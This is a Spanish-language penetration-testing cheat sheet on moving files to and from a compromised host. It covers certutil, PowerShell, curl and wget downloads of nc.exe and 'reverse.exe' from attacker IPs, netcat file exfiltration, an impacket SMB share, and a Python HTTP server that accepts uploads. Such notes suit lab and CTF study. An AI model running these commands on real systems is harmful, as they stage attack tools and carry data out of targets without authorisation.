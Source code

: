 ### **Windows**
```Powershell
certutil -split -urlcache -f http://<target>/<archivo> <nombre_archivo>
```

```Powershell
wget http://192.168.0.14:80/nc.exe -OutFile C:\Users\Wolf\Downloads\nc.exe
```

```Powershell
curl http://10.9.0.118:4444/file -o <namefile>
```

```Powershell
Invoke-WebRequest -Uri http://192.168.0.14:80/nc.exe -OutFile C:\Users\Wolf\Downloads\nc.exe
```

## **Netcat**
### **Receptor**
```
nc -lvnp 1234 > file.txt
```

### **Emisor**
```
nc 10.9.0.205 1234 < file.txt
```

## **Servidor SMB**
### **Levantar servidor SMB**
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
smbserver kali .
```

### **Descarga Windows**
```Powershell
copy \\10.9.0.184\kali\reverse.exe reverse.exe
```

### **Descarga Linux**
```
smbclient //10.9.0.184/kali -c 'get reverse.exe'
```

## **Script servidor descarga archivos Windows**
```Python
import http.server
import socketserver

class Handler(http.server.SimpleHTTPRequestHandler):
    def do_PUT(self):
        length = int(self.headers['Content-Length'])
        path = self.translate_path(self.path)
        with open(path, 'wb') as f:
            f.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()

PORT = 4444
with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print(f"Serving at port {PORT}")
    httpd.serve_forever()
    ```
```